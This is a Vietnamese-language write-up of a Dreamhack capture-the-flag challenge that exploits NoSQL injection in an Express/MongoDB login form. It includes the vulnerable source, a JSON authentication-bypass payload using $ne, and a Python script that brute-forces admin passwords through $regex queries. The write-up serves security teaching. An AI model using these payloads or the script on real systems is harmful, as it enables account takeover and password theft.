



# NoSQL Injection

**Tên challenge:**  Not-only

**Link challenge:** [Here](https://dreamhack.io/wargame/challenges/1619)

**Tác giả challenge:** Dreamhack

**Mục tiêu challenge:** Find a user with admin rights! The user's password is a flag. The password format is a string containing numbers, uppercase and lowercase letters, and special characters. `{}`

How many admin users are there?

The flag format is `DH{}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Challenge sẽ cung cấp cho ta 1 Source Code và Link Website, trước tiên ta sẽ thử Website:



Như ta thấy, trang `Home` của Website chỉ có dòng text là `Welcome. Please Login.` và 1 chức năng `Login` như sau:



**B2:** Ta thử lấy đăng nhập với credential `guest:guest` mà ta thấy được trong file `db.sql`:



Trang Web redirect chúng ta qua `/user` nếu credential hợp lệ và in ra thông tin như ảnh trên và điều đáng chú ý là dòng `Your admin auth: 0`, nghĩa là ta không phải `admin`.

**B3:** Ta bắt đầu phân tích những file quan trọng trong Source Code:
1. `app.js`:
```javascript
const express = require('express');
const app = express();
const path = require('path');
const port = 3000;
const loginRouter = require('./routes/login'); 
const userRouter = require('./routes/user'); 
const session = require('express-session');

app.use(session({
  secret: 'REDACTED',
  resave: false,
  saveUninitialized: true
}));


app.use(express.urlencoded({ extended: false }));
app.use(express.json());

app.set('view engine','ejs')
app.set('views', path.join(__dirname, 'views')); 


app.get('/', (req, res) => {
  res.render("index.ejs");
});


app.use('/login', loginRouter);


app.use('/user', userRouter);

app.listen(port, () => {
  console.log(`Server is running on port ${port}`);
})
```
**Giải thích:**
* File trên có tác dụng tạo ra một ứng dụng Web sử dụng `Express.js` với các chức năng cơ bản.
* Điều ta cần quan tâm ở file này là 2 dòng code sau:
```
app.use(express.urlencoded({ extended: false }));
app.use(express.json());
```
* Bạn có thể hiểu ngắn gọn 2 dòng trên có tác dụng giúp Server xử lý những gói tin `POST` có `Content-Type` là `x-www-form-urlencoded` hoặc `application/json `.
2. `index.js`:
```javascript
const express = require('express');
const router = express.Router();

app.get('/', function(req, res) {
    
});
module.exports = router;
```
**Giải thích:** Dùng để xử lý request đến trang `/`

3. **user.js**:
```javascript
const express = require('express');
const router = express.Router();


router.get('/', (req, res) => {
  const user = req.session.user; 

  if (user) {
    res.render('user', { user: user }); 
  } else {
    res.redirect('/login'); 
  }
});

module.exports = router;
```
**Giải thích:** Xử lý chuyển hướng đến trang `/user` và render nội dung cần thiết nếu người dùng đã đăng nhập thành công và được cấp session, ngược lại thì chuyển hướng về trang `/login`

4. `login.js`:
```javascript
const express = require('express');
const router = express.Router();
const path = require('path');

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

router.post('/', (req, res) => {
    const uid = req.body.uid;
    const upw = req.body.upw;
  
    
    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            req.session.user = { uid: result['uid'], admin: result['admin']};
            res.redirect('/user');
        }else{
            res.redirect('/login');
        }
    });
  });

router.get('/', function(req, res) {
    res.render("login.ejs");
});

module.exports = router;
```
**Giải thích:**
* Code trên xử lý `POST` request từ `/login` và nhận 2 giá trị `uid` và `upw` trong phần body của `POST` request. Cụ thể là nó sẽ dùng hàm `findOne()` để truy vấn vào mongodb tìm kết quả khớp với 2 giá trị `uid` và `upw`. Nếu truy vấn trả về kết quả thì sẽ cấp session cho người dùng rồi redirect sang trang `/user`, ngược lại thì trả về `/login`.

Nếu ta để ý thì ta thấy, đoạn code dùng hàm `findOne()` không có biện pháp filter nào mà truyền thẳng input người dùng vào trong hàm dẫn đến ta có thể khai thác `NoSQL Injection` ở đây:
```
db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }
```
4. `db.sql`:
```
use main;
db.user.insert({"uid": "guest", "upw": "guest", "admin": 0});
db.user.insert({"uid": "hack", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "apple", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "melon", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "testuser", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "admin", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "aaaa", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "cream", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "berry", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "ice", "upw": "**sample**", "admin": 0});
db.user.insert({"uid": "panda", "upw": "**sample**", "admin": 0});
db.user.find();
```
**Giải thích:**
* File dùng để thêm các user vào Database.

**Tổng hợp lại:**
* File `login.js` có thể khai thác lỗ hổng `NoSQL Injection`
* Ta biết được danh sách các `uid` của user có trong Database, tuy nhiên không biết được `password`.
* Từ đề bài, ta cũng biết được Flag chính là `password` của `user` có vai trò `admin` trong Challenge.

Cho nên, ta sẽ khai thác Challenge này lần lượt theo các bước sau:
1. Ta sẽ lợi dụng lỗ hổng `NoSQL Injection` để đăng nhập vào từng `user` để xem phần `Your admin auth` của `user` đó có phải là `admin` không.
2. Sau khi đã tìm được `user` có vai trò là `admin` thì ta sẽ bắt đầu đi tìm ngược lại `password` của `user` đó.

**B4:** Ta bắt lại gói tin POST request `/login` và edit nó thành payload có thể giúp ta Bypass như sau:
Đây là gói tin ban đầu khi bắt lại:
```
POST /login HTTP/1.1
Host: host3.dreamhack.games:18354
Content-Length: 19
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host3.dreamhack.games:18354
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host3.dreamhack.games:18354/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

uid=guest&upw=guest
```
Bình thường ta có thể thay đổi body thành: `uid=guest&upw[$ne]=null` thì ta có thể khai thác được `NoSQL Injection`, tuy nhiên do ở file `app.js` đã chặn payload trên cho nên ta không thể khai thác:
```
app.use(express.urlencoded({ extended: false }));
```
Tuy nhiên, do Website cũng xử lý `Content-Type: application/json`, do đó ta có thể lợi dụng điểm này và khai thác nó:
```
POST /login HTTP/1.1
Host: host3.dreamhack.games:18354
Content-Length: 19
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://host3.dreamhack.games:18354
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host3.dreamhack.games:18354/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "uid": "guest",
  "upw": { "$ne": null }
}
```
Tiếp theo, ta sẽ thay `guest` thành các `uid` có trong danh sách `db.sql` và tìm kiếm `uid` nào có vai trò là `admin`.

=> Cuối cùng, ta thu được `testuser` và `cream` là 2 `user` có vai trò là `admin`.

**B5:** Ta tiến hành khai thác ngược lại `password` thông qua toán tử `$regex` trong MongoDB:
```
{
  "uid": "testuser",
  "upw": { "$regex": '^a' }
}
```
Nghĩa là ta sẽ tìm `uid` là `testuser` với `password` bắt đầu bằng chữ `a` và ta thay chữ `a` thành các chữ ký tự khác, nếu như chữ ký tự nào có thể redirect ta vào trang `/user` thì chữ ký tự đó thuộc `password`.

Dưới đây là `Script Python` sẽ giúp ta làm điều này:
```python
import requests
import json

CHARSET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ012345}6{789'
password=''
for index in range (50):
    print("[DEBUG] Đang bruteforce kí tự thứ ", index)
    for i in CHARSET:
        # URL của endpoint cần gửi POST request
        url = "http://host3.dreamhack.games:8927/login" # Change this

        # Dữ liệu cần gửi đi trong body của POST request
        data = {
            "uid": "testuser", # Change this to the second admin when you done with the first admin
            "upw": { "$regex": f"^{password}{i}" }
        }

        # Định nghĩa header cho POST request
        headers = {
            "Content-Type": "application/json",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36",
            "Accept-Encoding": "gzip, deflate, br",
            "Connection": "keep-alive"
        }

        # Gửi POST request
        response = requests.post(url, headers=headers, data=json.dumps(data))
        print("Tui đang thử kí tự thứ ",index," nè: ", i, end="\r")
        if "<h1>Welcome, testuser</h1>" in response.text:
            password+=i
            print("Tìm ra kí tự thứ ", index, "là ", i, "(FLAG:",password,")")
            break
```

=> Sau khi ta chạy xong cả 2 `user` là `cream` và `testuser`, ta sẽ ghép 2 `password` vừa tìm được lại với nhau là sẽ được `Flag`.

<u>**Thông tin thêm:**</u> Flag có dạng `DH{}`